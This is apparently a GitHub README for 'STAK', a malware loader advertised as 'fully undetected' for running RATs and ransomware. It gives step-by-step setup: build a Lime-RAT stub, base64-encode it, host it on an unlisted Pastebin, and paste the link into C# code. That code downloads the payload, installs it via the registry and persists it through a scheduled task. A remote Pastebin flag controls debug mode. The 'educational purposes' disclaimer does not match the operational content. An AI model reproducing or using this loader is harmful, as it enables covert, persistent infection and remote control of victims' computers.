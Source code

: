 # STAK
STAK is a fully undetected program runner that can run everything you want. From ransomware, to RATs.

This is purely made for educational purposes and not ment to be used to spread a RAT or any sort of malware.

# How to set this up and compile it.
**You will need:**

`Visual Studio Community 2019`

`A browser, such as Chrome`

`Pastebin`

`A program you want to run`

Now to compile it, you need to do a couple of things.
If you want to add a RAT to it, its pretty easy. You can do this with f.e [Lime-RAT](https://github.com/NYAN-x-CAT/Lime-RAT).
In this tutorial i will explain it with Lime-RAT.

Download Lime-RAT from [this link](https://github.com/NYAN-x-CAT/Lime-RAT/releases/download/v0.1.9.2/Compiled.zip).
Open Lime-RAT, and build your stub. You can follow [this](https://www.youtube.com/watch?v=8cl4nMJgb7o) tutorial.

Download the source by clicking the "Clone or download" button and clicking "Download ZIP". Unzip it using any program you want. Now open the STAK.sln file. You will get something like this: 

![](https://i.imgur.com/acxRTng.png)

Click on Program.cs. You will now see something like this: 

![](https://i.imgur.com/80YOqnk.jpg)

**Now follow what i say.**
Find this in Program.cs:

```
string Payload = DownloadPayload("YOUR-STUB-HERE");
InstallRegistry(Payload);
AddToSchtasks();
```

This is the part where you will need your stub, pastebin and your browser.
Open your browser and open [this link](https://www.browserling.com/tools/file-to-base64). Drag and drop your stub into the blue space on the site. Now press "Convert to Base64!". A box wil open up below the button, click on it, press CTRL + A and press CTRL + C. Now open up pastebin with [this link](https://pastebin.com). You will now see this:

![](https://i.imgur.com/hQ4kV6q.png)

Copy and paste the Base64 code into your paste with CTRL + V. Set Paste Exposure to Unlisted and give the paste a name. It doesnt matter what. Now press the "raw" button. Copy the link in your search bar. Paste this link into "YOUR-STUB-HERE". **DO NOT DO THIS ON ONE OF THEM, THERE ARE MULTIPLE OF THESE CODES.**
There are 2 of the same codes in one, because there is a debug mode i did in a lazy way :D

```
if (debugmode == "debug")
{
    DialogResult result = MessageBox.Show("Run RAT?", "DEBUG-MODE", MessageBoxButtons.YesNo);
    if (result == DialogResult.Yes)
    {
        string Payload = DownloadPayload("Add the pastebin link to here.");
        InstallRegistry(Payload);
        AddToSchtasks();
    }
    else
    {
        MessageBox.Show("Skipping...", "DEBUG-MODE");
    }
}
else
{
    string Payload = DownloadPayload("But also to here.");
    InstallRegistry(Payload);
    AddToSchtasks();
}
```

It will now look like this.

```
string Payload = DownloadPayload("https://pastebin.com/raw/yourpastelink");
InstallRegistry(Payload);
AddToSchtasks();
```

You are done for the stub!
If you want to add a debug mode, you can make a new paste with the same explanation as i just told you but instead of pasting the base64 code into the paste you paste a 1 (debug mode on) or a 0 (debug mode off). Then you click on raw again and copy the pastebin link. Then find this:

```
private static void Checker()
{
    string url = ("https://pastebin.com/raw/qA3FzffP");
    string debug = new WebClient().DownloadString(url);
    if (debug == "1")
    {
        debugmode = "debug";
    }
}
```

Change the pastebin link you see in there with the pastebin link you just copied.

**You are done!**

Now compile it by changing Debug to Release from here!

![](https://i.imgur.com/VeUiZJ9.png)

## Have fun playing with it! If you chose to RAT someone that you don't have permission to, its gonna be your own fault buddy. Its all on you, if you go to jail.
